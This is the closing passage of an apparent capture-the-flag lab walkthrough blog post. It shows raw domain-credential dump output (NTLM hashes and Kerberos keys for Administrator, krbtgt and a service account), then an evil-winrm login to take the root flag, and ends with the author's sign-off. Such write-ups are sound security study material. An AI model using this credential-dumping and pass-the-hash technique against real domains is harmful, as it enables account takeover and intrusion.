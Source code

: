 ```
 0010   7F 2D 9B 4B CE 29 B0 E6  E0 2C 59 5A AA B7 6F FF   .-.K.)...,YZ..o.
 0020   5A 4B D6 6B DB 2A FA 1E  84 09 35 35 9F 9B 2D 11   ZK.k.*....55..-.
 0030   69 4C DE 79 44 BA E1 4B  5B BC E2 77 F4 61 AE BA   iL.yD..K[..w.a..
NL$KM:f9414fe38049a5bd902d6832f7e38ee77f2d9b4bce29b0e6e02c595aaab76fff5a4bd66bdb2afa1e840935359f9b2d11694cde7944bae14b5bbce277f461aeba
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<SNIP>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:bd6bd7fcab60ba569e3ed57c7c322908:::
svc_ldap:1601:aad3b435b51404eeaad3b435b51404ee:6839f4ed6c7e142fed7988a6c5d0c5f1:::
AUTHORITY$:1000:aad3b435b51404eeaad3b435b51404ee:a24d6c11654195abb225adbbc8dadbb1:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72c97be1f2c57ba5a51af2ef187969af4cf23b61b6dc444f93dd9cd1d5502a81
Administrator:aes128-cts-hmac-sha1-96:b5fb2fa35f3291a1477ca5728325029f
Administrator:des-cbc-md5:8ad3d50efed66b16
krbtgt:aes256-cts-hmac-sha1-96:1be737545ac8663be33d970cbd7bebba2ecfc5fa4fdfef3d136f148f90bd67cb
krbtgt:aes128-cts-hmac-sha1-96:d2acc08a1029f6685f5a92329c9f3161
krbtgt:des-cbc-md5:a1457c268ca11919
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:5473668921d738a423458c57a216b07903adf603064c0d75256fd661292273b7
AUTHORITY$:aes128-cts-hmac-sha1-96:53c6b9f8a15669399ec412a84dfc3317
AUTHORITY$:des-cbc-md5:ef4c23d5e9bfea4a
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
<SNIP>
```
- Logged in using `evil-winrm` and got the root flag
![Pasted image 20250226215544.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020250226215544.png?raw=true)

{{< typeit >}} I know it's been long since my last post, The resason is Hugo had an recently which caused some issues within my site build. Anyway This is a very good box, I learnt a lot. I'll see you guys again like old times with regular posts, bye. {{< /typeit >}}

![bye](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3ZjdjQxcnB0YXBqYXV0NnA0dzI4YWoxeTJidm1jNWpxaWhtZGxsMSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fNqodJNdEUrP65RYDT/giphy.gif)
